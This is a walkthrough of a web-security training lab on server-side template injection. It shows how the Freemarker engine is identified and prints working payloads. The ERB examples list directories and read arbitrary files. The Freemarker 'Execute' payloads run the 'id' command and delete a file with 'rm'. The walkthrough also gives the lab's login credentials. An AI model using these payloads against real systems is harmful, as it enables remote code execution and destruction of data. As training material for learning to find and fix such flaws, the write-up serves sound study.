





# Server-side template injection using documentation

## Lab Description :



## Overview :
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section.

This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

For example, in ERB, the documentation reveals that you can list all directories and then read arbitrary files as follows:

```text
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

## Solution :
Login to the website using the credentials - content-manager:C0nt3ntM4n4g3r.




So here we have an option to edit out template. When we enter ``${{<%[%'"}}%\`` & save the template , it doesn't return anything which means it caused an error at the backend. This confirms the SSTI vulnerability.

Identifying the template engine -
When we enter ``${9/0}`` (divide by zero expression), we get an error in the response indicating that the template engine used is Freemarker.



Executing arbitrary code -
We can run code on Freemarker using this -
```text
${"freemarker.template.utility.Execute"?new()("id")}
```

Reference: 

 .https://portswigger.net/research/server-side-template-injection

 .https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---code-execution

On previewing the template after entering the following payload gives us the id as carlos.



To delete this just replace the id command to rm /home/carlos/morale.txt

```text
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

And we have successfully solved the lab.



#### Visit The Next Page For The Next Level :)
